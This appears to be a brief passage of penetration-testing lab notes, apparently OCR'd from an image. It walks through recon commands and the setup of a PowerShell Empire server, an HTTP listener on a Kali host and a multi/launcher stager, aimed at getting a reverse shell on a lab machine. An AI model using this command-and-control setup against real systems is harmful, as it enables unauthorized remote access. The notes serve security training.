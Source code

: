 ```
whoami
```

```
ipconfig

IPv4 Address 10.4.22.227
Subnet Mask 255.255.240.0
Default Gateway 10.4.16.1
```

```
ping 10.4.22.232
```

PowerShell Empire

Shell No. 2

```
powershell-empire server
```

Shell No. 3

```
powershell-empire client
```

Establish a session on demo.ine.local. And use a PowerShell Empire Stager to get that a reverse shell session.

Set up a listener.

```
uselistener http
```

Shell No. 4

```
ifconfig

10.10.22.3
```

Kali Linux: 10.10.22.3

```
set Host 10.10.22.3
set Port 8888
execute
listener
main
```

Set up our Stager, which is our payload.

```
usestager multi/launcher
```
